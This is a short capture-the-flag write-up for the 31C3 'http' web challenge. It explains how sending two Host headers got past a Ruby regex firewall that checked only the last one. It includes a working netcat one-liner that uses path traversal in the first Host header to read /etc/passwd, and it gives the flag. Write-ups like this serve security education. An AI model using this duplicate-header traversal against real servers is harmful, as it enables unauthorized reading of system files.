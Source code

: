 # http

**Category:** Web

**Points:** 15

**Description:**

> Check out our cool webserver. It is really fast because it is implemented in C. For security we use the versatility of ruby.
> 
> Get the source at: https://31c3ctf.aachen.ccc.de/uploads/http.tar.bz2
> 
> Some example sites hosted with our webserver:
> 
> - http://works.90.31c3ctf.aachen.ccc.de/works.html
> - http://31c3ctf.90.31c3ctf.aachen.ccc.de/announcements.html

## Write-up

The webserver was using a simple regex check in Ruby to filter malicious requests.

We noticed the firewall was only checking the last HOST parameter in a request, so we crafted an HTTP request containg two different HOST parameters. The first HOST parameter was malicious and attempted path traversal, while the second was a legitimate one.

```bash
$ echo -e "GET /passwd HTTP/1.1\r\nHost: ../../../../../../../etc\r\nHost: 90.31c3ctf.aachen.ccc.de\r\n\r\n" | nc 90.31c3ctf.aachen.ccc.de 80
```

Since the firewall only checked the last (second) one, our malicious parameter got through and was used to read out the passwd file containing the flag:
`31C3_b45fa9e4d5969e3c524bdcde15f84125`